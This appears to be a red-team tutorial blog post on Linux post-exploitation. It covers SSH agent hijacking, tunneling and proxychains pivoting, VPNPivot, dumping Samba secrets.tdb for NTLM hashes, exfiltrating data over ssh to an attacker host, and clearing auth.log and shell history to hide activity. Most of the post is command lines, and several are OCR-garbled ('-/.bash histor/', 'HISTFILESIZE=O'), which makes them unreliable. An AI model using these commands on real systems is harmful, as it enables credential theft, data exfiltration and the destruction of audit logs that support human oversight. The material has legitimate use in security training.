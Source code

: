 ```yaml
---
layout: post
published: true
title: Linux Post Exploitation 10.4
tags:
  - PWP
  - Intermediate
  - Linux Post Exploitation
comments: true
---
```

## Linux Lateral Movement And Exfiltration & more.


## Introduction

**_In this blog post we will discuss, Linux lateral movements, Data Exfiltration, covering tracks._**


**Lateral Movement**

Its a technique to move around in a network in search of data or assets to exfiltrate and gain access to multiple target assets.


**SSH Hijacking**

For this method to be successful, the compromised machine should have an active SSH session established to another machine via Public Key Authentication.

```
# Attacker finds the SSHd process of the victim
ps uax|grep sshd
``
``
# Attacker looks for the SSH_AUTH_SOCK on victim's environment variables
grep SSH_AUTH_SOCK /proc/<pid>/environ
``
`` 
# Attacker hijack's victim's ssh-agent socket
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l
``
`` 
# Attacker can log in to remote systems as the victim
ssh remote_system -l victim
```

[Click here to know more about it](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)


**SSH Tunneling**

It is used to port forward the attacker machine to access internal assets

Local port forwarding on port 8080 through SSH TUNNEL from attacker session to another machine.

``
sudo ssh  -L 127.0.0.1:8080:192,168.1,118:8080 user@<targetIP>
``
Remote forward on 8080 , forward to the attacker on 443

``
sudo ssh -R8080:127.0.0.1:443 user@<targetip>
``

**sshuttle** is an alternative for ssh tunneling

``
https://github.com/sshuttle/sshuttle
``

**Proxy chaining**

proxychains - redirect connections through proxy servers

To configure ProxyChains, we simply edit the main configuration file (/etc/proxychains.conf) and add our SOCKS4 proxy to it
we will append following line proxychains.conf file

``
socks4 127.0.0.1 1337
``
``
ssh -D1337 root@2.2.2.2 (For dynamic tunneling)
``

In a separate terminal run:
``
proxychains nmap -A -p- <10.10.10.139>
``
And you will be able to use nmap with proxychains to scan any internal host. Proxychains tunneling used to discover internal host services and internal networks.

**VPNPivot**
VPN Pivot sends and receives a fully encrypted TCP/IP stack over TCP stream socket, then the peers forward it into the desired device/host. The attacker explores the internal network as he belongs to it within a local IP address taken from the DHCP server or statically configured.

Installation

```
# git clone https://github.com/0x36/VPNPivot.git

cd VPNPivot

./autogen.sh

./configure

 make && make install
```
**Usage:**
``
./src/pivotc <server IP> <server port> <locale IP> [MTU]
``
```
The options are :

    server IP: the IP address of the server (pivots)
    
    server port: the port which the server is listening on
    
    locale IP: the IP address of the network interface connected to the unreachable network.
    
    MTU: the MUT is optional unless you're changing it in pivots
```




**Samba system secrets to take over domain admin**

``
tdbdump /var/lib/samba/private/secrets.tdb
``
If we get NTLM hash for any machine in the domain we can compromise it using pass the hash technic.

I will explain pass the hash in the upcoming blog post.


**Data Exfiltration**

Exfiltration of sensitive data from the target machine, and owning that data to see severity.

There are many techniques to move data from the target machine to attacker machine


** Using SSH**

Start nc listner in attaker machine

``
nc -nlvp 80 > Targetdata.tmp
``

In target machine

``
tar zcf - /tmp/datafolder | ssh root@<attackerIP> "cd /tmp; tar zxpf -"
``
 
**

## Cover tracks

Washing hands, after did a sin. 

Clear auth.log file
``
echo "" /var/log/auth.log
``
Clear current user bash history
``
echo "" -/.bash history
``
Delete .bash_history file
``
rm -/.bash histor/ -rf
``
Clear current session history
``
history -c
``
Set history max lines to 0
``
export HISTFILESIZE=O
``
Set history max commands to 0
``
export HISTSIZE=O
``
To kill current session
``
kill -9 $$
``
To permanently send all bash history commands to /dev/null
``
ln /dev/null -/.bash_history -sf
``


There are many other techniques also, you can check them yourself and keep practice.

## Conclusion

_**In this blog post we discussed some lateral movement and data exfiltration techniques, we will discuss persistence in upcoming red team series.**_









































